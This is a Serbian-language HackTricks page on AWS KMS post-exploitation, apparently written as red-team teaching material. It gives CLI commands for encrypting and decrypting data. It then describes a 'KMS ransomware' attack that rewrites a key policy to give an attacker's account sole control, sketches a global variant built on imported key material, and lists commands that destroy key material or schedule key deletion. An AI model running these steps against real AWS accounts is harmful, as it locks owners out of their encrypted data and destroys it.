 # AWS - Post Eksploatacija KMS

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## KMS

Za više informacija pogledajte:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Šifrovanje/Dešifrovanje informacija

* Korišćenjem **simetričnog** ključa
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Korišćenje **asimetričnog** ključa:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
Ako prilikom pokušaja kms dešifrovanja dobijete grešku 'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:', pokušajte koristiti **`--ciphertext-blob file://`** umesto **`fileb://`**.

Korišćenje **`file://`** vam omogućava da koristite fajlove napisane u vašem preferiranom kodiranju prilikom korišćenja CLI-ja.
U verzijama 1.6.3 i novijim CLI-ja, imate pristup još jednom načinu za prosleđivanje sadržaja fajla CLI-ju, **`fileb://`**. On funkcioniše slično kao **`file://`**, ali umesto čitanja sadržaja fajla kao teksta, čita se kao binarni.

U većini slučajeva, **`file://`** će zadovoljiti vaš zahtev za prosleđivanje sadržaja fajla kao ulaz. Međutim, postoje slučajevi kada je potrebno koristiti **`fileb://`** kako bi se sadržaj fajla prosledio kao binarni umesto kao tekst.
Pročitajte više na AWS blogu: [AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Ransomware

Napadač sa privilegovanim pristupom preko KMS-a mogao bi da izmeni KMS politiku ključeva i **dodeli svom nalogu pristup nad njima**, uklanjajući pristup koji je dodeljen legitimnom nalogu.

Zatim, korisnici legitimnog naloga neće moći da pristupe bilo kojim informacijama bilo koje usluge koja je enkriptovana tim ključevima, stvarajući jednostavan, ali efikasan ransomware nad nalogom.

{% hint style="warning" %}
Imajte na umu da **AWS upravljani ključevi nisu pogođeni** ovim napadom, samo **Korisnički upravljani ključevi**.

Takođe, imajte na umu potrebu za korišćenjem parametra **`--bypass-policy-lockout-safety-check`** (nedostatak ove opcije u web konzoli čini ovaj napad mogućim samo iz CLI-ja).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Imajte na umu da ako promenite tu politiku i date pristup samo spoljnom nalogu, a zatim iz ovog spoljnog naloga pokušate da postavite novu politiku kako biste **vratili pristup originalnom nalogu, nećete moći**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Generički KMS ransomver

#### Globalni KMS ransomver

Postoji još jedan način za izvođenje globalnog KMS ransomvera, koji bi uključivao sledeće korake:

* Kreirajte novi **ključ sa ključnim materijalom** uvezenim od napadača
* **Ponovo šifrujte starije podatke** šifrovane prethodnom verzijom novim ključem.
* **Obrišite KMS ključ**
* Sada samo napadač, koji ima originalni ključni materijal, može dešifrovati šifrovane podatke

### Uništavanje ključeva
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Imajte na umu da AWS sada **sprečava prethodne radnje da se izvrše sa različitih naloga:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
